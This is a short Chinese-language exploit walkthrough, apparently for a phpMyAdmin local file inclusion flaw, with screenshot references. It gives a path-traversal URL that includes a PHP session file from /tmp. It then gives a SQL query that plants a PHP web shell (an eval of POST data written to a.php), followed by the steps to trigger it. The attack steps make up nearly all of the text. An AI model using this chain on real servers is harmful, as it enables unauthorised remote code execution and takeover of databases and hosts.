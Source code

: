 http://your-ip:8080/index.php?target=db\_sql.php%253f/../../../../../../../../tmp/sess\_96f5e4daa240a56fb90cbd130ee33ef4

sess为cookie中phpmyadmin的值

![image](img/phpmyadmin4.png)

**写入shell**

```
SELECT `<?php fputs(fopen("a.php","w"),'<?php eval($_POST[a]);?>');?>`;
```

执行后会报错SQL查询错误，接着继续访问tmp sess文件，再去访问a.php

![image](img/phpmyadmin5.png)
